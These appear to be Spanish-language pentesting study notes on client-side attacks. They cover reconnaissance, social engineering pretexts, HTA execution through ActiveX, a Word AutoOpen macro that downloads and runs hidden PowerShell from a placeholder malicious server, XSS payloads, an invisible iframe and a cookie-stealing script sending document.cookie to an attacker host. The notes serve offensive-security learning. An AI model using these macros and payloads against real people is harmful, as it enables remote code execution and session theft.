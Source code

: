 # Client-Side Attacks

Propietario: Adrian Gisbert Cabello

### 1. Introducción a los Ataques del Lado del Cliente

Los vectores de ataque del lado del cliente son especialmente insidiosos ya que explotan debilidades en el software del cliente, como un navegador, en lugar de explotar el software del servidor. A menudo implican alguna forma de interacción y engaño para que el software del cliente ejecute código malicioso .

### 2. Metodología para Conocer tu Objetivo

La clave para los ataques del lado del cliente radica en la recopilación precisa y completa de información. Se pueden usar técnicas tanto pasivas como activas para recopilar información sobre los objetivos de ataques del lado del cliente.

### 2.1. Recopilación de Información Pasiva

- **Búsqueda en Google y Redes Sociales**: Buscar direcciones IP corporativas, fotos de pantallas de computadoras en redes sociales, foros, etc.
- **Revisar Cadena de Agente de Usuario**: Buscar información en sitios que recopilan datos de agentes de usuario para identificar el sistema operativo y las versiones del navegador y complementos instalados .

### 2.2. Recopilación de Información Activa

- **Ingeniería Social**: Llamadas telefónicas o correos electrónicos dirigidos para obtener información sobre el sistema operativo, versiones de software, etc.
- **Fingerprinting del Cliente**: Utilizar bibliotecas como Fingerprintjs2 para identificar versiones del navegador y detalles del sistema operativo a través de un sitio web malicioso .

### 3. Leveraging HTML Applications (HTA)

- **Exploración de Aplicaciones HTML**: Las aplicaciones HTML permiten la ejecución de aplicaciones directamente desde Internet Explorer utilizando `mshta.exe`, lo que permite ejecutar código arbitrario con los permisos del usuario.Esta técnica aprovecha tecnologías web legadas de Microsoft como ActiveX .
    
    ```html
    <script>
      var shell = new ActiveXObject("WScript.Shell");
      shell.run("cmd.exe");
    </script>
    ```
    

### 4. Explotación de Microsoft Office

- **Macros de Microsoft Word**:
    - Crear un documento de Word con una macro maliciosa que ejecute un payload de PowerShell para abrir un shell inverso.
    
    ```
    Sub AutoOpen()
      Dim objShell As Object
      Set objShell = CreateObject("WScript.Shell")
      objShell.Run "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://malicious.server/payload.ps1')"
    End Sub
    ```
    
- **OLE (Object Linking and Embedding)**: Insertar objetos OLE maliciosos en documentos de Office para ejecutar código arbitrario.
- **Evasión de Vista Protegida**: Configurar el documento para que sea confiable o instruir al usuario a desactivar la vista protegida .

### 5. Ataques de Ingeniería Social

- **Pretexting**: Crear un pretexto convincente para obtener información específica del usuario objetivo, como versiones de software y configuraciones de seguridad, a través de interacciones aparentemente legítimas.
    - Ejemplo: Enviar un currículum malformado que no se pueda abrir y luego solicitar detalles del software para "solucionar" el problema .

### 6. Ataques Basados en Navegador

### 6.1. Cross-Site Scripting (XSS)

- **Identificación de XSS**:
    - Examinar los campos de entrada y observar si aceptan datos no saneados que se reflejan en la salida.
    - Probar con caracteres especiales (`<`, `>`, `"`, `'`, `{`, `}`, `;`).
- **Payload Básico de XSS**:
    
    ```html
    <script>alert('XSS')</script>
    ```
    
- **Uso de iframes Invisibles**:
    
    ```html
    <iframe src="http://malicious.server/payload" height="0" width="0"></iframe>
    ```
    
- **Robo de Cookies y Sesiones**:Estos ataques pueden incluir el secuestro de sesiones, redirección forzada a páginas maliciosas y ejecución de aplicaciones locales como el usuario .
    
    ```html
    <script>
      document.write('<img src="http://attacker.server/steal?cookie=' + document.cookie + '" />');
    </script>
    ```
    

### 7. Herramientas Adicionales

- **BeEF (Browser Exploitation Framework)**: Herramienta de explotación que puede usar vulnerabilidades XSS para lanzar ataques del lado del cliente.URL de la interfaz de BeEF: `http://127.0.0.1:3000/ui/panel` .
    
    ```bash
    sudo beef-xss
    ```